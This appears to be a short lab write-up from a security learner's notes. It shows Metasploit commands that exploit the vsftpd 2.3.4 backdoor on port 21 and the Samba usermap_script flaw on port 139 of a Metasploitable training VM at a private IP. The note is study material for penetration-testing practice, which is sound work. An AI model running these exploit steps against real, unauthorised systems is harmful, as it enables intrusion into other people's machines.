 ```yaml
---
description: exploiting vulnerabilities
---
```


# Metasploit

Load the metasploit framework using `msfconsole`

## Exploiting open port 21 in metasploitable using metasploit

we search the port 21 vulnerability on google, stumbled on rapid7 (metasploit) website and get a guide to perform this attack.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor     # launching the attack
```

```bash
show options    # shows the available options for the vulnerablity.
set RHOST 192.168.81.132    # we use 'set' to set the 'RHOST' to the correct ip addr.
```

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 03-00-37.png" alt=""><figcaption><p>after executing the set RHOST cmd</p></figcaption></figure>

after setting the RHOST and RPORT, type `exploit` to execute the attack, we now have access to the machine.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 03-01-19.png" alt=""><figcaption><p><code>exploit</code></p></figcaption></figure>

## Exploiting open port 139 in metasploitable using metasploit

`use exploit/multi/samba/usermap_script`

same method as with port 21.





